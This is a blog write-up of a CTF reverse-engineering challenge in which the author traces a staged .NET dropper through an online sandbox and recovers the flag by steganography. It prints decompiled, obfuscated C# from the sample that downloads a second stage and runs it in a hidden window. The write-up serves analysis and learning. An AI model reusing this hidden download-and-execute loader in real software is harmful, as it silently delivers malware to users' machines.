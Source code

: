 ```yaml
---
title: "Writeup Cyber Threat Force : Verify this"
date: 2021-07-10T00:00:09+01:00
draft: false
tags: ["blog", "security", "ctf", "cyber-threat-force", "reverse"]
type: "posts"
showDate: true
---
```


For this challenge, we were given a `Stagged.exe` executable. Before running it on our machine, we can try to run it against hybrid analysis, an online malware analysis service.

Here is the [link to the full report](https://www.hybrid-analysis.com/sample/1a071c52e1c94be73f9a2aef069629d61b100e4a52701c7c0921f50211daa6e7/60e138f4125bb815b6267895).

We can see in the "Network Analysis" tab that the program made two requests:

![Screenshot of the "Network Analysis > HTTP Traffic" part of the report](/assets/cyber-threat-force/reverse-verify-this-hybrid-analysis.png)

Trying to download the first image gives us a PE file. If we upload it again, we see that it also makes a request to `/ordertoexecute.gif`, so we can assume that `Stagged.exe` doesn't contain the "main" code, `index.jpg` does.

The name of the binary is fitting: `Stagged.exe` probably refers to a "staged" malware, which downloads one or more stages that contains the actual nefarious code.

We can take a look at the second image:

![The second image, a GIF from star wars](/assets/cyber-threat-force/ordertoexecute.gif)

Now this is where I stopped when I was doing the CTF. I tried a few steganography tools but none worked. [Nobodyisnobody](https://www.root-me.org/nobodyisnobody) found the tool that you had to use: [stegosuite](http://manpages.ubuntu.com/manpages/bionic/man1/stegosuite.1.html).

{{< image src="/assets/cyber-threat-force/stego-suite.png" alt="Stegosuite extracting the flag" position="center">}}

The flag was `CYBERTF{Gr3at_J0b_Ag3nt}`.

---

When I did not find any message encoded in the image, I started looking at the binary itself. It's a Mono/.Net program, probably obfuscated using something like [Eazfuscator](https://www.gapotchenko.com/eazfuscator.net). I say that because [ILSpy](https://github.com/icsharpcode/ILSpy), a .NET decompiler, spits out mangled function names, encoded strings, ...

The function responsible for downloading the second stage is this one:
```cs
// \u0005\u2000
using System;
using System.Diagnostics;
using System.Net;
using System.Threading;

internal sealed class \u0005\u2000
{
        private static void \u0002(string[] \u0002)
        {
            if (\u0003.\u0002())
            {
                string text = \u0008\u2000.\u0002(1179443472) + Environment.UserName + \u0008\u2000.\u0002(1179443456);
                string text2 = \u0008\u2000.\u0002(1179443518);
                string text3 = \u0008\u2000.\u0002(1179443500);
                string text4 = \u0008\u2000.\u0002(1179443570);
                string text5 = null;
                WebClient webClient = new WebClient();
                webClient.Headers.Set(\u0008\u2000.\u0002(1179443554), \u0008\u2000.\u0002(1179443863));
                webClient.Headers.Add(\u0008\u2000.\u0002(1179443847), \u0008\u2000.\u0002(1179443894));
                webClient.Headers.Add(\u0008\u2000.\u0002(1179443964), \u0008\u2000.\u0002(1179443734));
                webClient.Headers.Add(\u0008\u2000.\u0002(1179443719), \u0008\u2000.\u0002(1179443769));
                text5 = text3 + text4;
                webClient.DownloadFile(text5, text + \u0008\u2000.\u0002(1179443757) + text2);
                Thread.Sleep(36000);
                Process.Start(new ProcessStartInfo
                {
                        CreateNoWindow = true,
                        UseShellExecute = false,
                        FileName = text + \u0008\u2000.\u0002(1179443757) + text2,
                        WindowStyle = ProcessWindowStyle.Hidden
                });
            }
        }
}
```

Now I could also have analyzed the second stage, a Go binary, but it is quite fat (6mb), so I stopped there.

---

You can [view the sources on github](https://github.com/vivescere/ctf/tree/main/cyber-threat-force-2021/reverse/verify-this) or [read other writeups](/blog/cyber-threat-force-ctf/).
